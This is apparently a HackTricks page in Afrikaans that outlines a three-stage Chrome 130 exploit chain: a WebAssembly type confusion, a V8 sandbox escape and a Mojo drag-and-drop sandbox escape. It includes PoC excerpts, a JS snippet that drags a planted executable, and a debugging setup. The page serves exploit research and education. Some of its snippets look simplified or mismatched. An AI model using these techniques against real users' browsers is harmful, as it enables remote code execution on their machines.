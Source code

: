 # Chrome Exploiting

{{#include ../banners/hacktricks-training.md}}

> Hierdie bladsy bied 'n hoëvlak maar **praktiese** oorsig van 'n moderne "volledige-ketting" eksploitasiestroomwerk teen Google Chrome 130 gebaseer op die navorsingsreeks **“101 Chrome Exploitation”** (Deel-0 — Voorwoord).
> Die doel is om pentesters en eksploitontwikkelaars die minimum agtergrond te gee wat nodig is om die tegnieke te herproduseer of aan te pas vir hul eie navorsing.

## 1. Chrome Argitektuur Herinnering
Om die aanvaloppervlak te verstaan, is dit nodig om te weet waar kode uitgevoer word en watter sandboxes van toepassing is.
```
+-------------------------------------------------------------------------+
|                             Chrome Browser                              |
|                                                                         |
|  +----------------------------+      +-----------------------------+    |
|  |      Renderer Process      |      |    Browser/main Process     |    |
|  |  [No direct OS access]     |      |  [OS access]                |    |
|  |  +----------------------+   |      |                             |    |
|  |  |    V8 Sandbox        |   |      |                             |    |
|  |  |  [JavaScript / Wasm] |   |      |                             |    |
|  |  +----------------------+   |      |                             |    |
|  +----------------------------+      +-----------------------------+    |
|               |           IPC/Mojo              |                       |
|               V                                    |                     |
|  +----------------------------+                   |                     |
|  |        GPU Process         |                   |                     |
|  |  [Restricted OS access]    |                   |                     |
|  +----------------------------+                   |                     |
+-------------------------------------------------------------------------+
```
Layered defence-in-depth:

* **V8 sandbox** (Isolate): geheue toestemmings is beperk om arbitrêre lees/skryf van JITed JS / Wasm te voorkom.
* **Renderer ↔ Browser split** is verseker deur **Mojo/IPC** boodskap oordrag; die renderer het *geen* inheemse FS/netwerk toegang nie.
* **OS sandboxes** bevat verder elke proses (Windows Integrity Levels / `seccomp-bpf` / macOS sandbox profiele).

'n *Afgeleë* aanvaller benodig dus **drie** opeenvolgende primitives:

1. Geheue korrupsie binne V8 om **arbitrêre RW binne die V8 heap** te verkry.
2. 'n Tweede fout wat die aanvaller toelaat om **uit die V8 sandbox na volle renderer geheue** te ontsnap.
3. 'n finale sandbox-ontsnapping (dikwels logika eerder as geheue korrupsie) om kode **buite die Chrome OS sandbox** uit te voer.

---

## 2. Stage 1 – WebAssembly Type-Confusion (CVE-2025-0291)

'n Fout in TurboFan se **Turboshaft** optimalisering klassifiseer verkeerd **WasmGC verwysingstipes** wanneer die waarde binne 'n *enkele basiese bloklus* geproduseer en verbruik word.

Effek:
* Die kompilateur **slaag die tipe-toets oor**, en behandel 'n *verwysing* (`externref/anyref`) as 'n *int64*.
* Gemaakte Wasm laat toe dat 'n JS objekkop met aanvaller-beheerde data oorvleuel → <code>addrOf()</code> & <code>fakeObj()</code> **AAW / AAR primitives**.

Minimal PoC (uittreksel):
```WebAssembly
(module
(type $t0 (func (param externref) (result externref)))
(func $f (param $p externref) (result externref)
(local $l externref)
block $exit
loop $loop
local.get $p      ;; value with real ref-type
;; compiler incorrectly re-uses it as int64 in the same block
br_if $exit       ;; exit condition keeps us single-block
br   $loop
end
end)
(export "f" (func $f)))
```
Trigger optimalisering & spuitobjekte vanaf JS:
```js
const wasmMod = new WebAssembly.Module(bytes);
const wasmInst = new WebAssembly.Instance(wasmMod);
const f = wasmInst.exports.f;

for (let i = 0; i < 1e5; ++i) f({});   // warm-up for JIT

// primitives
let victim   = {m: 13.37};
let fake     = arbitrary_data_backed_typedarray;
let addrVict = addrOf(victim);
```
Outcome: **arbitraire lees/schryf binne V8**.

---

## 3. Stadium 2 – Ontsnapping uit die V8 Sandbox (kwessie 379140430)

Wanneer 'n Wasm-funksie tier-up-gecompileer word, word 'n **JS ↔ Wasm-wrapper** gegenereer. 'n Handtekening-mismatch fout veroorsaak dat die wrapper oor die einde van 'n vertroude **`Tuple2`** objek skryf wanneer die Wasm-funksie heroptimiseer word *terwyl dit steeds op die stapel is*.

Oorskryding van die 2 × 64-bit velde van die `Tuple2` objek lewer **lees/schryf op enige adres binne die Renderer-proses**, wat effektief die V8-sandbox omseil.

Belangrike stappe in die uitbuiting:
1. Kry funksie in **Tier-Up** toestand deur afwisselend turbofan/baseline kode.
2. Trigger tier-up terwyl 'n verwysing op die stapel gehou word (`Function.prototype.apply`).
3. Gebruik Stadium-1 AAR/AAW om die aangrensende `Tuple2` te vind en te korrupteer.

Wrapper identifikasie:
```js
function wrapperGen(arg) {
return f(arg);
}
%WasmTierUpFunction(f);          // force tier-up (internals-only flag)
wrapperGen(0x1337n);
```
Na korrupsie besit ons 'n volledig funksionele **renderer R/W primitive**.

---

## 4. Stadium 3 – Renderer → OS Sandbox Ontsnapping (CVE-2024-11114)

Die **Mojo** IPC-koppelvlak `blink.mojom.DragService.startDragging()` kan vanaf die Renderer met *gedeeltelik vertroude* parameters aangeroep word. Deur 'n `DragData` struktuur te vervaardig wat na 'n **arbitêre lêerpad** wys, oortuig die renderer die blaaier om 'n *natuurlike* sleep-en-drop **buite die renderer sandbox** uit te voer.

Deur dit te misbruik, kan ons programmaties 'n kwaadwillige EXE (voorheen in 'n wêreld-skryfbare ligging gelaat) na die Desktop "sleep", waar Windows sekere lêer-tipes outomaties uitvoer sodra dit gelaat word.

Voorbeeld (vereenvoudig):
```js
const payloadPath = "C:\\Users\\Public\\explorer.exe";

chrome.webview.postMessage({
type: "DragStart",
data: {
title: "MyFile",
file_path: payloadPath,
mime_type: "application/x-msdownload"
}
});
```
Geen ekstra geheuekorruptie is nodig nie – die **logika-fout** gee ons arbitrêre lêeruitvoering met die gebruiker se voorregte.

---

## 5. Volledige Kettingvloei

1. **Gebruiker besoek** kwaadwillige webblad.
2. **Fase 1**: Wasm-module misbruik CVE-2025-0291 → V8 heap AAR/AAW.
3. **Fase 2**: Wrapper-mismatch korrupteer `Tuple2` → ontsnap V8 sandkas.
4. **Fase 3**: `startDragging()` IPC → ontsnap OS sandkas & voer payload uit.

Resultaat: **Afgeleë Kode-uitvoering (RCE)** op die gasheer (Chrome 130, Windows/Linux/macOS).

---

## 6. Laboratorium & Foutopsporing Instelling
```bash
# Spin-up local HTTP server w/ PoCs
npm i -g http-server
git clone https://github.com/Petitoto/chromium-exploit-dev
cd chromium-exploit-dev
http-server -p 8000 -c -1

# Windows kernel debugging
"C:\Program Files (x86)\Windows Kits\10\Debuggers\x64\windbgx.exe" -symbolpath srv*C:\symbols*https://msdl.microsoft.com/download/symbols
```
Nuttige vlae wanneer 'n *ontwikkeling* bou van Chrome gelaai word:
```bash
chrome.exe --no-sandbox --disable-gpu --single-process --js-flags="--allow-natives-syntax"
```
---

## Takeaways

* **WebAssembly JIT foute** bly 'n betroubare toegangspunt – die tipe stelsel is steeds jonk.
* Om 'n tweede geheue-korrupsie fout binne V8 te verkry (bv. wrapper wanpassing) vereenvoudig **V8-sandbox ontsnapping** aansienlik.
* Logika-vlak swakhede in bevoorregte Mojo IPC interfaces is dikwels voldoende vir 'n **finale sandbox ontsnapping** – hou 'n oog op *nie-geheue* foute.



## References
* [101 Chrome Exploitation — Part 0 (Preface)](https://opzero.ru/en/press/101-chrome-exploitation-part-0-preface/)
* [Chromium sekuriteitsargitektuur](https://chromium.org/developers/design-documents/security)
{{#include ../banners/hacktricks-training.md}}
